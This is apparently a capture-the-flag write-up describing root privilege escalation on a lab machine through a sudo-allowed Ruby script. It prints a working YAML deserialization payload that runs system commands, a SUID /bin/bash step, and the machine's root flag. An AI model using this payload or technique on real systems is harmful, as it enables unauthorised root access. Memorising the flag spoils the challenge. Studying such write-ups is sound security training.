










One of the first steps to take when enumerating a target machine is to check for potential sudo privileges for a given user. In this case, doing so reveals a sudo entry for a Ruby script.



So we can try to execute this as a root. When we do this, we can see “No such file or directory”.  So we can see what are inside the /opt/udpadre_dependencies.rb



The script reads the contents of dependencies.yml and later checks whether the specified versions equal those installed globally on the system.

As we can also see in the source code, dependencies.yml is referenced relatively, meaning there is no absolute path specified, which is why when executed, the program looks for the file in the current directory.

Seeing as we have now verified that we can control this part of the code we search for potential vulnerabilities in the YAML module, which is responsible for loading the file.



Looking at the Ruby docs, we already find a reference to the security implications of loading untrusted data via YAML → https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html

A search for Ruby deserialisation yields a popular repository, hosting an array of payloads useful for our practices; they are all bound to versions between 2.0 and 3.0 , so we first check what version the target machine is running. → https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

To see our ruby version
```bash
$ ruby -v
```


It would appear that this version is vulnerable to the latter payload on the aforementioned repository, so we paste this in the dependencies.yml file
```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```      
 And now we execute
 ```bash
 $ sudo sudo /usr/bin/ruby /opt/update_dependencies.rb
```



Running the script verfies this theory, as the id command is executed successfully.

If we see the permisions on the /bin/bash is 775



So we can try to asign a SUID permision (4755) to execute a interactive console temporally as a propietary.



Modifiel the dependencies.yml file, we run the old command again that we can run as root so that the /bin/bash changes permissions.
```bash
$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```



And we can see that the /bin/bash now have SUID permisions. Now we do
```bash
$ bash -p 
```
to grant you owner permissions



And now if we go to cd /root/ and do a cat root.txt we get the root flag



root flag → e00e7faf5e01dce76e26187d9f7c6230

[Back](README.md)